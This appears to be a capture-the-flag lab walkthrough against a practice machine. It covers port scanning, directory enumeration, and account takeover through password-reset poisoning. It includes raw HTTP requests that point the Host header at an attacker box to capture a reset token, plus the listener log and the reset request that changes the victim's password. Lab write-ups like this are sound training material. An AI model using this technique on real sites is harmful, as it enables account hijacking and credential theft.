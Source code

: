TCP SCAN




> TARGET=10.129.71.155 && nmap -p$(nmap -p- --min-rate=1000 -T4 $TARGET -Pn | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) -sC -sV -Pn -vvv $TARGET -oN nmap_tcp_all.nmap

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Werkzeug/2.1.2 Python/3.8.10
|_http-server-header: Werkzeug/2.1.2 Python/3.8.10
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.1.2 Python/3.8.10
|     Date: Sun, 13 Nov 2022 20:04:35 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     X-Varnish: 32775
|     Age: 0
|     Via: 1.1 varnish (Varnish/6.2)
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/2.1.2 Python/3.8.10
|     Date: Sun, 13 Nov 2022 20:04:26 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 219
|     Location: http://127.0.0.1
|     X-Varnish: 32770
|     Age: 0
|     Via: 1.1 varnish (Varnish/6.2)
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="http://127.0.0.1">http://127.0.0.1</a>. If not, click the link.
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.8.10
|     Date: Sun, 13 Nov 2022 20:04:27 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|     X-Varnish: 3
|     Age: 0
|     Via: 1.1 varnish (Varnish/6.2)
|     Accept-Ranges: bytes
|     Connection: close
|   RTSPRequest, SIPOptions: 
|_    HTTP/1.1 400 Bad Request
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Login
  
  
  
WEB ENUM
  
  
  
> dirsearch -u http://10.129.71.155/

15:19:10] 200 -    5KB - /forgot
[15:19:14] 401 -   19B  - /home
[15:19:26] 401 -   19B  - /login
[15:19:50] 200 -    5KB - /reset
Inspecting the code at http://10.129.71.155, found a comment that reveals a username. We can attempt to reset the password of this account
<!-- Q1 release fix by robert-dev-10045 -->
ACCOUNT TAKEOVER
Trying the account at http://10.129.71.155/forgot will show the following message, ensuring it’s a valid account
Password reset link has been sent to user inbox. Please use the link to reset your password
Intercept the requests with burp and examine the password reset request
# Change the host header of the reset req to kali box
GET /forgot?username=robert-dev-10045 HTTP/1.1
Host: <kali-ip>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.129.71.155/forgot
Cookie: <cookies>


# setup a listener to capture the reset response
INFO:root:Starting httpd...

INFO:root:GET request,
Path: /reset?token=<reset-token>
Headers:
Host: <kali-ip>
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive

10.129.71.155 - - [13/Nov/2022 17:27:09] "GET /reset?token=<reset-token> HTTP/1.1" 200 -
Now, we captured the reset token, we can now use this token to reset the password of the account robert-dev-10045. NOTE: the token may contain some character that will be interpreted by the browser, therefore, it’s important to url encode the token before sending. Also, some tokens work, some don’t; be patient.
POST /reset?token=<url-encoded-token> HTTP/1.1
Host: 10.129.71.155
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://10.129.71.155
Connection: close
Referer: http://10.129.71.155/reset?token=<url-encoded-token>
Cookie: <cookies>

password=test
The changed password expires very quickly, so you may need to repeat this multiple times.
After resetting the password, we can now login as robert-dev-10045
